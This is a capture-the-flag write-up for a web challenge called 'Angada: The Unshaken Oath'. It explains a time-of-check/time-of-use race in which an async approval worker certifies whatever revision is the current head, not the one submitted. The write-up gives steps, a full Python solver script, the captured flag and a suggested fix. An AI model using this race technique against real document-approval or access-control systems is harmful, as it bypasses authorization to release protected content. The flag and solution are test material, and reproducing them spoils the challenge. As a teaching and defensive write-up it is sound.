




# L01 - Angada: The Unshaken Oath

**Category:** Web | **Flag:** `PINAKA{angada_the_unshaken_oath}`
Target: `http://130.210.48.10:9011`

## The bug

The approval worker has a time-of-check/time-of-use bug. You submit a specific revision for review, but the worker doesn't keep track of which one. When it runs, it certifies whatever the document head is at that point. So I submitted an ordinary revision and rolled the head back to the sealed one before the worker ran, and the sealed revision got certified.

## Steps

1. Enroll as Angada. The current `doc_war_terms` head is `r_001`, which is sealed.
2. Create an ordinary revision `r_002` and submit it to the async approval queue.
3. Right away, roll the head back to `r_001`.
4. Wait for the scribe, check the audit log, dispatch the head.

The audit log shows the sequence: `submit_review` on `r_002`, `rollback` to `r_001`, then `certify` on `r_001`. `r_001` was never submitted for review, yet it was certified, and dispatch released the sealed content:

```text
PINAKA{angada_the_unshaken_oath}
```







## Solver

`solve.py` sends the requests over one keep-alive HTTP connection, waits for the worker, reads the audit log and dispatches. The responses are saved in `transcripts/`.

```python
#!/usr/bin/env python3
"""Win L01 by racing the async scribe's head lookup with a permitted rollback."""
from __future__ import annotations
import http.client, json, os, time
from pathlib import Path
ROOT=Path(__file__).resolve().parent
HOST=os.environ.get('PINAKA_L01_HOST','130.210.48.10')
PORT=int(os.environ.get('PINAKA_L01_PORT','9011'))
BASE=os.environ.get('PINAKA_L01_URL',f'http://{HOST}:{PORT}').rstrip('/')

def parse_base(url):
    from urllib.parse import urlsplit
    u=urlsplit(url);return u.hostname,u.port or (443 if u.scheme=='https' else 80),u.scheme

def main():
    host,port,scheme=parse_base(BASE)
    if scheme!='http':raise ValueError('this instance uses plain HTTP')
    conn=http.client.HTTPConnection(host,port,timeout=15)
    def req(method,path,body=None,auth=None):
        headers={}
        if body is not None:headers['Content-Type']='application/json'
        if auth:
            headers['X-Session']=auth['session_id'];headers['Authorization']='Bearer '+auth['token']
        raw=None if body is None else json.dumps(body,separators=(',',':'))
        conn.request(method,path,body=raw,headers=headers)
        r=conn.getresponse();data=r.read()
        try:payload=json.loads(data)
        except Exception:raise RuntimeError(f'{method} {path}: HTTP {r.status}: {data!r}')
        if r.status>=400:raise RuntimeError(f'{method} {path}: HTTP {r.status}: {payload}')
        return payload
    enrollment=req('POST','/chancery/enroll',{})
    auth={'session_id':enrollment['session_id'],'token':enrollment['token']}
    print('Enrolled:',auth['session_id'])
    docs=req('GET','/chancery/documents',auth=auth)
    print('Documents:',json.dumps(docs,sort_keys=True))
    doc='doc_war_terms'
    current=req('GET',f'/chancery/documents/{doc}',auth=auth)
    print('Initial head:',current.get('head'),'revisions:',len(current.get('revisions',[])))
    draft=req('POST',f'/chancery/documents/{doc}/revisions',{},auth)
    rev=draft.get('rev_id') or draft.get('revision',{}).get('rev_id')
    if not rev:raise RuntimeError(f'could not read new revision ID: {draft}')
    print('Created ordinary revision:',rev)
    submitted=req('POST','/chancery/approvals',{'doc_id':doc,'rev_id':rev},auth)
    print('Submitted for async review:',json.dumps(submitted,sort_keys=True))
    rollback=req('POST',f'/chancery/documents/{doc}/rollback',{'rev_id':'r_001'},auth)
    print('Rolled head back to sealed r_001:',json.dumps(rollback,sort_keys=True))
    time.sleep(float(os.environ.get('PINAKA_L01_WAIT','1.2')))
    audit=req('GET','/chancery/audit',auth=auth)
    print('Recent audit:',json.dumps(audit,sort_keys=True))
    dispatched=req('POST','/chancery/dispatch',{'doc_id':doc},auth)
    print('Dispatch:',json.dumps(dispatched,indent=2))
    (ROOT/'transcripts').mkdir(exist_ok=True)
    (ROOT/'transcripts'/'03_audit.json').write_text(json.dumps(audit,indent=2)+'\n')
    (ROOT/'transcripts'/'04_dispatch.json').write_text(json.dumps(dispatched,indent=2)+'\n')
    (ROOT/'transcripts'/'05_flag.txt').write_text(str(dispatched.get('response',''))+'\n')
    conn.close()
    if not dispatched.get('response','').startswith('PINAKA{'):
        raise RuntimeError('dispatch did not return the sealed flag')
    print('Flag:',dispatched['response'])
if __name__=='__main__':main()
```

## Fix

The job should carry the submitted `rev_id` and certify that revision, not the current head. At certification time it should re-check that revision's classification and tie the certificate to the revision ID and a content hash. Dispatch should require that exact certificate.
